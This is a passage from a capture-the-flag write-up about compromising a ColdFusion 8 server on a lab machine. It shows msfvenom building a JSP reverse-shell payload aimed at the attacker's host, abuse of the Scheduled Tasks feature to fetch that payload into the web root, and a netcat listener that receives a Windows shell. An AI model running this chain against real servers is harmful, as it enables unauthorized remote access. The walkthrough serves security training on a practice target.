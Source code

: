 {{< image src="/img/arc8.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Here we can find the paths being used:

{{< image src="/img/arc9.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

The directory **\CFIDE** was the one we saw the first time we visited the webserver so anything we upload here we will be able to see and open later on.

# But what type of file can we upload and how?

ColdFusion is able to work perfectly with **JSP** files and with **msfvenom** we can create a malicious JSP file that once triggered, will give us a reverse shell.

# Generating the file with msfvenom
```bash
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.161 LPORT=334 -o shell.jsp

Payload size: 1497 bytes
Saved as: shell.jsp
```

# Uploading the file

We will start by going to **Scheduled Tasks** and schedule a new task:

{{< image src="/img/arc7.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

We're going to put the URL of our webserver offering the file and also the path where we're going to save the file:

{{< image src="/img/arc10.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Now we have to submit and run the task:

{{< image src="/img/arc11.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}
```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.76.192 - - [08/Jul/2022 17:19:19] "GET /shell.jsp HTTP/1.1" 200 -
```

Hopefully the file has been successfully uploaded and we can find it in **\CFIDE**:

{{< image src="/img/arc12.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Perfect! Now let's set the listener and open the file:

```bash
❯ rlwrap nc -lvnp 334
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::334
Ncat: Listening on 0.0.0.0:334
Ncat: Connection from 10.129.76.192.
Ncat: Connection from 10.129.76.192:49322.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>
```
